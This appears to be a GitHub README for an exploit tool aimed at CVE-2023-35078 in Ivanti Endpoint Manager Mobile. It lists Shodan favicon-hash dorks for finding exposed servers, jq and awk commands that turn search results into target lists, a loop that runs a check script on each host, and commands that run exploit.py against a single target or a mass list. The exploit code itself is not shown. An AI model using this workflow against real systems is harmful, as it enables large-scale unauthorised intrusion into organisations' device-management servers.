 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
	  http.favicon.hash:362091310 <br/>
	  http.favicon.hash:545827989 <br/>
	  path=/mifs <br/>

- Transform json to data <br/>

      jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      python shodan-parser.py -o temp_data_file shodan.json
      awk '{print "https://"$0}' temp_data_file > data_file
- How run check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 

      chmod +x check.sh; while read line; do ./check.sh $line; done < data_file

- Setup requirements <br/>

      pip install -r requirements.txt

- Run exploit single address . <br/>

      python exploit.py -u http://
- Run mass exploit . <br/>

      python exploit.py -f urls.txt
